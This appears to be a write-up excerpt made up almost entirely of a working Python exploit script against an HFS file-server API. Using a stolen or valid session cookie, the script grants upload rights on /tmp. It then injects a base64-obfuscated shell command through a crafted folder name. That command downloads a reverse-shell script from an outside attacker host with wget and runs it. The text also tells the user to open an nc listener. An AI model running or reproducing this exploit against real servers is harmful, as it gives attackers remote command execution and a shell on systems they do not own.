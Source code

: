 
Here is the modified script file 🔻

```python
import requests as req
import base64

url = input("Url: ") or "http://127.0.0.1:9090/"
cookie = input("Cookie: ")
ip = input("Ip: ") or "10.0.2.15"
port = input("Port: ") or "2222"
headers = {"x-hfs-anti-csrf":"1","Cookie":cookie}
print("Step 1 add vfs")
step1 = req.post(url+"~/api/add_vfs", headers=headers, json={"parent": "/source", "source": "/tmp"})
print("Step 2 set permission vfs")
step2 = req.post(url+"~/api/set_vfs", headers=headers, json={"uri":"/tmp/","props":{"can_see":None,"can_read":None,"can_list":None,"can_upload":"*","can_delete":None,"can_archive":None,"source":"/tmp","name":"tmp","type":"folder","masks":None}})
print("Step 3 create reverse shell file")
command = "wget http://172.17.0.1:8888/reverse_shell.sh -O /tmp/reverse_shell.sh"
command = command.encode('utf-8')
payload = 'poc";python3 -c "import os;import base64;os.system(base64.b64decode(\''+base64.b64encode(command).decode('utf-8')+"'))"
step3 = req.post(url+"~/api/create_folder", headers=headers, json={"uri":"/tmp/","name":payload})
print("Step 4 execute payload")
step4 = req.get(url+"~/api/get_ls?path=/tmp/"+payload, headers=headers)


print("---------------- Reverse Shell is upload, Now its time to load it--------------------")

print("\nNow : Start listener on your attacker machine")
print("On your attacker machine ({0}), start a listener for the reverse shell:".format(ip))
print("Command: nc -lvnp {0}".format(port))
print("This will listen for incoming connections on port {0}".format(port))

input("Press Enter to load this reverse_shell file.  ENTER ")


print("Step 5 add vfs")
step1 = req.post(url+"~/api/add_vfs", headers=headers, json={"parent": "/source", "source": "/tmp"})
print("Step 6 set permission vfs")
step2 = req.post(url+"~/api/set_vfs", headers=headers, json={"uri":"/tmp/","props":{"can_see":None,"can_read":None,"can_list":None,"can_upload":"*","can_delete":None,"can_archive":None,"source":"/tmp","name":"tmp","type":"folder","masks":None}})
print("Step 7 create reverse shell file")
command = "bash /tmp/reverse_shell.sh"
command = command.encode('utf-8')
payload = 'poc";python3 -c "import os;import base64;os.system(base64.b64decode(\''+base64.b64encode(command).decode('utf-8')+"'))"
step3 = req.post(url+"~/api/create_folder", headers=headers, json={"uri":"/tmp/","name":payload})
print("Step 8 execute payload")
step4 = req.get(url+"~/api/get_ls?path=/tmp/"+payload, headers=headers)

print("\n" + "="*60)
print("Connection Established")
print("="*60)
```
{: .nolineno }
